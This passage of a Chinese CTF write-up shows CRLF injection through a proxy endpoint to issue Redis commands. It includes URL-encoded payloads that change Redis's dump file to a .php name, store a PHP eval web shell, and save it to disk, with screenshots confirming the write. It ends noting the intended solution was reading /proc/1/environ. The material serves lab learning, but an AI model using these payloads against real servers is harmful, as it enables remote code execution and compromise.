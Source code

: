 ![image-20241027115130223](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-f0eed.png)

定时任务同理，这里就不再演示。。。

### 构造方法二：

除此之外，[文章](https://juejin.cn/post/6844903955235864589#heading-6)中还提到了：**`当Redis发现它收到的数据不是以"*"开头时, 它就会尝试解析这个字符串, 把它当做一个命令来处理, 然后返回对应的RESP格式的响应.`**

原文是通过`telnet`进行测试的，我这里使用`nc`测试一下, 可以看到在`nc`端输入`ping`命令时，可以在`monitor` 中看到执行日志，并且``nc`端也会收到`pong`的响应。

![image-20241027142520058](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-e6612.png)

因此构造命令可以简化为：

```
/proxy/%0d%0aping
```

![image-20241027145007376](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-432b0.png)

```
命令：config set dbfilename redis2.php
CRLF Payload：%0d%0aconfig%20set%20dbfilename%20redis2.php
```

![image-20241027145801132](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-17edf.png)

```
命令：set shell "<?php@eval($_POST['e']);?>"
CRLF Payload: %0d%0aset%20shell%20"<%3fphp%40eval($_POST['e'])%3b%3f>
注意：需要将空格使用 %20 表示。
```

![image-20241027145607884](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-e99d4.png)

```
命令：save
CRLF Payload：%0d%0asave
```

![image-20241027145634260](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-fca70.png)

最后上服务器上去查看，可以看到成功写入：

![image-20241027150831181](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-85980.png)

## 最后

最后一顿操作了半天，发现机器根本不出网。然后最后看wp的时候说的是，去读 `/proc/1/envrion` 就行了。

额。。。该喷还是得喷一下：不会出题就别出题。。。

最后整理了下文件读取的字典。。。[file_read dict](https://github.com/N0el4kLs/fuzzDicts/blob/master/ctfDict/file_read.txt)